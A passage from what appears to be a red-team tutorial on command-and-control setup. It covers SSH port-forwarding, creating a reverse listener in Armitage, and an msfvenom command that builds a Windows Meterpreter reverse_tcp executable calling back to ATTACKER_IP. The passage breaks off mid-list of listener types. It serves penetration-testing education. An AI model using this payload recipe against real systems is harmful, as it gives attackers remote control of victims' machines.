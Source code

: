 3. **Benefits of SSH Port-Forwarding**: SSH port-forwarding allows you to access the C2 server through a secure channel without exposing sensitive ports publicly, enhancing operational security.

---

### **3. Configuring a Listener in Armitage**

Listeners are essential in C2 frameworks as they enable the server to receive incoming connections (callbacks) from payloads on compromised machines. To create a listener in Armitage:

1. **Open Listener Configuration in Armitage**:
   - Go to the **Armitage dropdown menu** > **Listeners** > choose **Reverse** (for reverse shells where the victim connects back to the C2 server).

2. **Configure Listener Settings**:
   - **Port**: Set to the desired port (e.g., `TCP/31337`).
   - **Listener Type**: Choose between:
     - **Shell**: Standard reverse shell (similar to Netcat-style).
     - **Meterpreter**: A more advanced Metasploit payload with extended post-exploitation features.

3. **Confirm Listener Creation**:
   - Once configured, a new pane will open showing the listener details, indicating that it’s ready to accept connections.

---

### **4. Generating a Callback with MSFVenom**

To create a payload that calls back to your C2 server:

1. **Generate Payload with MSFVenom**:
   ```bash
   root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
   ```
   - **Payload**: `windows/meterpreter/reverse_tcp`.
   - **LHOST**: Set to your C2 server IP address (`ATTACKER_IP`).
   - **LPORT**: Set to the listener’s port (e.g., `31337`).
   - **Format (`-f`)**: Set to `exe` for Windows executable format.
   - **Output (`-o`)**: Specifies output file name (`shell.exe`).

2. **Transfer and Execute**:
   - Move the generated payload to the target machine. Once executed, it will initiate a callback to your Armitage listener, establishing a session.

---

### **5. Types of Listeners**

Different listeners support varied operational needs based on protocol, communication style, and evasion techniques. Here are common listener types:

1. **Standard Listener (TCP/UDP)**:
   - **Communication**: Raw socket over TCP or UDP, often in cleartext.
   - **Usage**: Simple and fast for testing; however, lacks security and obfuscation.
